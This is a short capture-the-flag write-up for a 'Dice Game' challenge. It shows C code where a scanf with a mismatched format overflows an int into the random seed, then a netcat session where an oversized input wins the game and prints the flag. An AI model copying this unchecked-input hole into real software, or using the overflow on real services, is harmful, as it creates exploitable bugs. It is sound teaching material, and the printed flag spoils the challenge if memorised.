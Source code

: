 # Dice Game

You can start with this dice game. I have made it very simple: roll 16 or higher to win.

nc ctf.wackattack.eu 5011

[⬇️ dice_game.tgz](./dice_game.tgz)

# Writeup

Quick analysis shows that the program is using a set seed which never gets the number we want within 3 tries or give us more money.

```c
    int seed = 7; // for good luck
    int strength = 0;
    printf("Let's play a game!\nThe entry fee is 10, but if you roll 16 you win everything i have!\n\n");
    printf("First we need to tune our setup. How hard do you plan on rolling the dice (on a scale from 1-100)?\n");
    scanf("%lu", &strength);
```

That scanf is a vulnerability. We can overflow the seed by giving a large number. Now I just randomly tested with a few 1's and played through and suddenly got the flag. Somehow I believe the seed was set to 11, which gave 16 on the second time.

```bash
└─$ nc ctf.wackattack.eu 5011
Let's play a game!
The entry fee is 10, but if you roll 16 you win everything i have!

First we need to tune our setup. How hard do you plan on rolling the dice (on a scale from 1-100)?
11111111111
Thank you, lets get started.
Your current balance is: 30
Would you like to play? (y/n)
y
Rolling...
You rolled 11. Too bad! I will keep the table open if you want to play more.

Your current balance is: 20
Would you like to play? (y/n)
y
Rolling...
You rolled 16. You won, congrats!
wack{such_sk1ll_4nd_5uch_luck}
```
